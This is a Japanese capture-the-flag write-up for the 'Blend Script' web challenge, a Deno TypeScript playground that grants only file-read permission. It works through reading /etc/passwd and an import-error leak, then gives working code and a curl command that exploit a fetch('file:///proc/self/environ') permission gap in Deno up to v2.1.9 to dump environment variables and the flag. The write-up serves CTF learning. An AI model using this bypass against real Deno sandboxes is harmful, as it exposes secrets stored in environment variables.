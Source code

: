 # Blend Script:Web:279.86pts
TypeScriptを安全に実行できる環境を作りました！  
[https://blend-script.web.cpctf.space/](https://blend-script.web.cpctf.space/)  
[blend-script.zip](blend-script.zip)  

**Hint1**  
スクリプトはDenoでファイルの読み取り権限のみが与えられた状態で実行されるようです。  
**Hint2**  
Linuxには、様々な情報にファイルとしてアクセスできる仕組み (procfs) があります。  
**Hint3 (解法)**  
環境変数にflagがありますが、`--allow-env`が設定されていないので`Deno.env.get("FLAG")`などでは読むことができません。そこで`/proc/self/environ`から環境変数を読み取ることを考えましょう。`--allow-read`だけだと基本的に`/proc`以下を読めないよう対策されていますが、Deno v2.1.9までは`fetch`を使ったときのチェックに漏れがあるのでこれを使うことで読めます。  
```typescript
const res = await fetch("file:///proc/self/environ")
const text = await res.text()
console.log(text.replaceAll("\0", "\n")) // /proc/self/environはnull文字で区切られている
```

# Solution
URLとソースが渡される。  
アクセスするとTypeScriptを実行できるPlaygroundのようだ。  
![site.png](site/site.png)  
ソースのmain.tsは以下であった。  
```ts
import { serveFile } from "jsr:@std/http@1.0.14";

const decoder = new TextDecoder();
const encoder = new TextEncoder();

Deno.serve(async (req) => {
  const pathname = new URL(req.url).pathname;

  if (pathname === "/") {
    return serveFile(req, "./index.html");
  }

  if (pathname === "/execute") {
    if (!req.body) {
      return new Response("Please provide a body", { status: 400 });
    }

    const json = await req.json();
    await using process = new Deno.Command(Deno.execPath(), {
      args: [
        "run",
        "--allow-read",
        "-",
      ],
      env: {
        "NO_COLOR": "1",
      },
      stderr: "piped",
      stdin: "piped",
      stdout: "piped",
    }).spawn();
    let status = 200;
    let error: string | undefined = undefined;
    const timeoutID = setTimeout(() => {
      status = 408;
      error = "Script execution timed out";

      process.kill();
    }, 1000);

    const writer = process.stdin.getWriter();

    await writer.ready;
    writer.write(encoder.encode(json.script));
    await writer.close();

    const cmdOutput = await process.output();

    clearTimeout(timeoutID);

    let output: string | undefined = undefined;

    // タイムアウトしていない場合
    if (!error) {
      output = decoder.decode(cmdOutput.stdout);
      error = decoder.decode(cmdOutput.stderr);

      if (error) {
        status = 400;
      }
    }

    return new Response(JSON.stringify({ output, error }), { status });
  }

  return new Response("Not found", { status: 404 });
});
```
`--allow-read`がついているためファイルが読めそうだ。  
Dockerfileは以下のようで、環境変数にフラグがある。  
```Dockerfile
# syntax=docker/dockerfile:1
FROM denoland/deno:distroless-2.1.9

COPY index.html main.ts /app/
WORKDIR /app/
EXPOSE 8000
ENV FLAG="CPCTF{dummy_flag}"

CMD ["run", "--allow-net", "--allow-read", "--allow-run=deno", "./main.ts"]
```
試しに`console.log(await Deno.readTextFile("main.ts"));`を行うと中身が読み取れる。  
[run0.png](site/run0.png)  
`console.log(await Deno.readTextFile("/etc/passwd"));`も通る。  
[run1.png](site/run1.png)  
ただし、`console.log(await Deno.readTextFile("/proc/self/environ"));`とすると以下のようなエラーが出る。  
![run2.png](site/run2.png)  
`error: Uncaught (in promise) NotCapable: Requires all access to "/proc/self/environ", run again with the --allow-all flag`とある。  
`/etc/`以下は読めているため、`/proc/`以下だけ特殊な制限があるようだ。  
ここで、エラーの内容がわかる場合`import "/proc/self/environ"`でファイルを読みだすテクニックを思い出す。  
![run3.png](site/run3.png)  
Errorにうまく環境変数が出てきているが、`FLAG=CPCTF{Y...`とちょうどフラグが省略されている。  
では、よくある`fetch`はどうかと思い付く。  
`fetch("file:///proc/self/environ").then((data) => data.text()).then((res) => console.log(res));`とする。  
![flag.png](site/flag.png)  
うまくOutputに環境変数が出ている。  
折り返しがなくNULLバイトも含まれており、見づらいのでcurlで取得する。  
```bash
$ curl -X POST https://blend-script.web.cpctf.space/execute -d '{"script":"fetch(\"file:///proc/self/environ\").then((data) => data.text()).then((res) => console.log(res));"}'
{"output":"DENO_DIR=/deno-dir/\u0000DENO_INSTALL_ROOT=/usr/local\u0000DENO_VERSION=2.1.9\u0000FLAG=CPCTF{YOU_can_rEad_3VeryTh1NG_4s_4_Fil3}\u0000HOME=/root\u0000HOSTNAME=235b3f80b97e\u0000NO_COLOR=1\u0000PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin\u0000SSL_CERT_FILE=/etc/ssl/certs/ca-certificates.crt\u0000\n","error":""}
```
flagが得られた。  

## CPCTF{YOU_can_rEad_3VeryTh1NG_4s_4_Fil3}